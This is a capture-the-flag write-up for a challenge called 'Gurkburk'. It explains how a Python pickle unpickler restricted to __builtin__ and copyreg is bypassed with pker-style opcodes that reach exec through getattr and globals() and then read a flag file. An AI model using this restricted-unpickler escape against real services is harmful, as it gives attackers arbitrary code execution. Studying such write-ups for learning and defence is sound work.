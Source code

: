 ```yaml
---
description: Python pickle deserialization vulnerability
---
```


# Gurkburk

## Problem

The flag is located in `./flag.txt`.

## Solution

Pickle is used to save and load notes into the application.

![](../../.gitbook/assets/b83bd3862fc8415a9a08fa222b4fbd00.png)

![](../../.gitbook/assets/06f07bd072064fb4a8827f6db569c53a.png)

Normally, we would be able to use the `__reduce__()` method to make the program call functions like `os.system()` \(see [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)\).

See [https://docs.python.org/3.7/library/pickle.html\#restricting-globals](https://docs.python.org/3.7/library/pickle.html#restricting-globals). The modules we can unpickle are restricted to `__main__`, `__builtin__` and `copyreg`. `eval` and `exec` are also banned.

![](../../.gitbook/assets/a67175be4b3d4d13a97580a116bf2716.png)

Thanks to [https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search](https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search), I found a way to bypass the restrictions.

They created an API to generate Pickle opcodes: [https://github.com/EddieIvan01/pker](https://github.com/EddieIvan01/pker) \(I made some slight modifications\)

Exploit code:

```python
getattr = GLOBAL ( '__builtin__' , 'getattr' ) 
dict = GLOBAL ( '__builtin__' , 'dict' ) 
dict_get = getattr ( dict , 'get' ) 
glo_dic = GLOBAL ( '__builtin__' , 'globals' )() 
builtins = dict_get ( glo_dic , '__builtins__' ) 
exec = getattr ( builtins , 'exec' )
exec ("print(open('flag.txt', 'r').read())") 
return
```

The idea is that using `getattr`, we can get _submodules_ of `__builtin__` \(and the submodules of the submodules\). `__builtin__.globals()` includes `builtins`, which includes `exec`. Once we have control over `exec`, we can execute arbitrary code.

![](../../.gitbook/assets/7b67c03c11e5447f8e7b010512a8ccac.png)

Submit the base64-encoded opcodes, and we obtain the flags.

![](../../.gitbook/assets/5cefd07e73384b6493eab4f5c7c5f4a4.png)

## References

1. [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search](https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search)
3. [https://github.com/EddieIvan01/pker](https://github.com/EddieIvan01/pker)

